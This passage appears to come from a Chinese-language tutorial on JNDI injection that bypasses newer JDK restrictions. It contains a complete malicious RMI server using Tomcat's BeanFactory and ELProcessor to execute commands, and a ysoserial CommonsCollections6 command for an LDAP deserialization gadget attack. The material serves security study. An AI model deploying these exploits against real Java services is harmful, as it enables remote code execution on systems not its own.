 ‍

EXP

```bash
package jndi.bypass;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;

import javax.naming.StringRefAddr;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class EvilRMIServer {
    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.createRegistry(3377);
        // 实例化 Reference，指定目标类为 javax.el.ELProcessor，工厂类为 org.apache.naming.factory.BeanFactory
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        // 强制将'x'属性的 setter 从'setX'变为'eval', 详细逻辑见 BeanFactory.getObjectInstance 代码
        ref.add(new StringRefAddr("forceString", "x=eval"));
        // 利用表达式执行命令
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['cmd', '/c', 'calc']).start()\")"));
        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("Object", referenceWrapper);
    }
}
```

‍

‍

## 利用 LDAP 返回序列化数据，触发本地 Gadget

其实这里就是在分析 LDAP+JNDI 的时候他有个类似 swich 的东西，当时传入的是引用类，所以走了引用类的逻辑，但是如果我们传入的是序列化的对象，并且后续会被反序列化，那么就相当于存在了一个天然的反序列化入口了，就可以触发本地的 Gadget 了

‍

本地调试下 先添加 CC 的依赖

```bash
<dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.2.1</version>
        </dependency>
```

‍

```bash
java -jar y4-yso.jar CommonsCollections6 "calc" > 1.ser | base64
```
